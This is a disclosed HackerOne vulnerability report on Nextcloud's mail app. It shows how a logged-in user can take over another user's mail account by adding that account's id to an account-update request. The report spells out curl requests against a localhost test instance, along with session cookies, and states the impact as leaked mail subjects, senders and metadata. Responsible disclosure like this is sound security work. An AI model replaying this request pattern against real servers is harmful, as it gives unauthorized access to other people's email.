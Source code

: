 # Take over a mail account due missing validation of account id

## Report Details
- **Report ID**: 1094063
- **URL**: https://hackerone.com/reports/1094063
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-03T17:20:10.781Z
- **Disclosed**: 2021-06-01T18:10:57.967Z

## Reporter
- **Username**: kesselb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
A validation is missing to make sure the account id belongs to the logged in user. 

To reproduce:
1. Login as user
2. Add a mail account to mail
3. Go to account settings
4. Update the account again

See a request like below: 

curl 'http://localhost:50001/index.php/apps/mail/api/accounts/%7Bid%7D' \
  -X 'PUT' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'requesttoken: qsnlh1ctCuo7T2KZ6F/8mxIXHXVpsBvvzPJRqvU+88M=:kqXVxiFjcJJWPjPzvRyO+WNGUB4N1k+ZlaAC2JBtnY0=' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Origin: http://localhost:50001' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Accept-Language: en-US,en;q=0.9,de;q=0.8' \
  -H 'Cookie: oc_sessionPassphrase=%2Fsi20cgXowTcmrwZL5Ur%2FUFYByHCAyhwo0Z%2B8V%2Bk2yL9nZpqlzfKOMcxVabLYE7dfTrV1hR7%2Fsnu83fG3GZdiJ5DjHLKD79XaH91L4G%2FNNlD9SbBq%2FMWOIIrYLGqCVnj; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc64oi0n8x29=c32fab57ad6d8cbe8e4d8e118f54759a; nc_username=bob; nc_token=HQlkh1JxcSadkeAI8HzBM0ewQDuIfk%2BU; nc_session_id=c32fab57ad6d8cbe8e4d8e118f54759a' \
  --data-raw '{"autoDetect":false,"accountName":"bob","emailAddress":"bob@localhost.test","imapHost":"imap","imapPort":993,"imapSslMode":"ssl","imapUser":"user@domain.tld","imapPassword":"mypassword","smtpHost":"imap","smtpPort":25,"smtpSslMode":"tls","smtpUser":"user@domain.tld","smtpPassword":"mypassword"}' 

Take the request and append id to body. id is the account id of another account.

curl 'http://localhost:50001/index.php/apps/mail/api/accounts/%7Bid%7D' \
  -X 'PUT' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'requesttoken: qsnlh1ctCuo7T2KZ6F/8mxIXHXVpsBvvzPJRqvU+88M=:kqXVxiFjcJJWPjPzvRyO+WNGUB4N1k+ZlaAC2JBtnY0=' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Origin: http://localhost:50001' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Accept-Language: en-US,en;q=0.9,de;q=0.8' \
  -H 'Cookie: oc_sessionPassphrase=%2Fsi20cgXowTcmrwZL5Ur%2FUFYByHCAyhwo0Z%2B8V%2Bk2yL9nZpqlzfKOMcxVabLYE7dfTrV1hR7%2Fsnu83fG3GZdiJ5DjHLKD79XaH91L4G%2FNNlD9SbBq%2FMWOIIrYLGqCVnj; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc64oi0n8x29=c32fab57ad6d8cbe8e4d8e118f54759a; nc_username=bob; nc_token=HQlkh1JxcSadkeAI8HzBM0ewQDuIfk%2BU; nc_session_id=c32fab57ad6d8cbe8e4d8e118f54759a' \
  --data-raw '{"autoDetect":false,"accountName":"bob","emailAddress":"bob@localhost.test","imapHost":"imap","imapPort":993,"imapSslMode":"ssl","imapUser":"user@domain.tld","imapPassword":"mypassword","smtpHost":"imap","smtpPort":25,"smtpSslMode":"tls","smtpUser":"user@domain.tld","smtpPassword":"mypassword","id":1}' 

The next request to

curl 'http://localhost:50001/index.php/apps/mail/api/messages?mailboxId=35&filter=is:pi-other&limit=20' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'requesttoken: 8q7mksjCgQLYbuJqIohYZg6zv8OCkERjy7v4SEW7G9w=:ysLW076M+3q1H7MAd8sqBH/i8qjm9hAVkumrOiDodZI=' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Accept-Language: en-US,en;q=0.9,de;q=0.8' \
  -H 'Cookie: oc_sessionPassphrase=%2Fsi20cgXowTcmrwZL5Ur%2FUFYByHCAyhwo0Z%2B8V%2Bk2yL9nZpqlzfKOMcxVabLYE7dfTrV1hR7%2Fsnu83fG3GZdiJ5DjHLKD79XaH91L4G%2FNNlD9SbBq%2FMWOIIrYLGqCVnj; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc64oi0n8x29=c32fab57ad6d8cbe8e4d8e118f54759a; nc_username=bob; nc_token=HQlkh1JxcSadkeAI8HzBM0ewQDuIfk%2BU; nc_session_id=c32fab57ad6d8cbe8e4d8e118f54759a' \
  --compressed

returns a list of messages like in the screenshot.

## Impact

Subject, sender and meta information about some mails are leaked.

## Attachments
- Screenshot_from_2021-02-03_18-17-13.png

